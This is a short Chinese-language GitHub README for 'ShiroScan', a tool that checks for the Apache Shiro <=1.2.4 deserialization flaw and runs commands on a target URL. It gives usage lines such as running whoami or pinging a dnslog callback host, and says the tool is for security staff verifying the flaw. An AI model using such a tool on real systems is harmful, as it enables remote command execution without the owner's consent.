 # ShiroScan
Shiro&lt;=1.2.4反序列化，一键检测工具

* 如果有帮助，请点个star哦，blog：svenbeast.com
* pip3 install -r requirments.txt     

* Usage：python3 shiro.py  url  command
* Usage：python3 shiro.py  http://url.com  whoami

* http://www.dnslog.cn/   验证推荐使用这个dnslog平台，速度比ceye.io要快很多
* 执行的命令带空格记得用""引起来

* usage：python3 shiro.py  http://url.com  "ping dnslog.cn"
* 7个模块全部跑一遍,然后去dnslog平台查看是否收到请求，不出来就GG，也可能是因为编码还不够多
* 请自行收集编码，在moule下的源代码中自行添加方法即可

## 不推荐当做exp使用，效率问题
## 仅供安全人员验证,测试是否存在此漏洞

